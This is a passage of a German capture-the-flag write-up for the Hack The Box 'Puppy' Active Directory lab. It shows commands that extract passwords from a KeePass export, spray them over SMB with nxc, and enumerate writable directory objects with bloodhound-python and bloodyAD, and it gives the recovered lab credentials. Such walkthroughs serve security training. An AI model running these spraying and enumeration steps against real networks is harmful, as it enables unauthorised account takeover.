 Das Skript analysiert eine **XML-Datei aus KeePass** (z. B. ein XML-Export) und extrahiert aus jedem Eintrag die **Benutzernamen und Passwörter**

```hlt:1
python3 extract_keepass.py | awk -F'Password: ' '{print $2}' > passwords_only.txt
```
```hlt:1
cat password_only.txt
```

## Password Spraying

```hlt:1
nxc smb xx.xx.xx.xx -u users.txt -p passwords_only.txt --continue-on-success
```
führt einen **SMB-Kombinations-Bruteforce-Angriff** gegen den Host `xx.xx.xx.xx` mit dem Tool **nxc** (eine moderne Version von CrackMapExec).


**==Credentials: ant.edwards : Antman2025!==**

## Second Privilege Escalation: Targeting adam.silver

```hlt:1
bloodhound-python -dc DC.PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' -d PUPPY.HTB -c All -o bloodhound_results_ant_edwards.json -ns xx.xx.xx.xx
```
```hlt:1,2,19,6
bloodyAD --host xx.xx.xx.xx -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' get writable --detail | grep -E "distinguishedName: CN=.*DC=PUPPY,DC=HTB" -A 10 

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=PUPPY,DC=HTB
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
userSMIMECertificate: WRITE
msDS-ExternalDirectoryObjectId: WRITE
msDS-cloudExtensionAttribute20: WRITE
msDS-cloudExtensionAttribute19: WRITE
msDS-cloudExtensionAttribute18: WRITE
msDS-cloudExtensionAttribute17: WRITE
--
distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
ms-net-ieee-80211-GroupPolicy: CREATE_CHILD
nTFRSSubscriptions: CREATE_CHILD
classStore: CREATE_CHILD
ms-net-ieee-8023-GroupPolicy: CREATE_CHILD
shadowFlag: WRITE
shadowExpire: WRITE
shadowInactive: WRITE
shadowWarning: WRITE
shadowMax: WRITE
shadowMin: WRITE
```
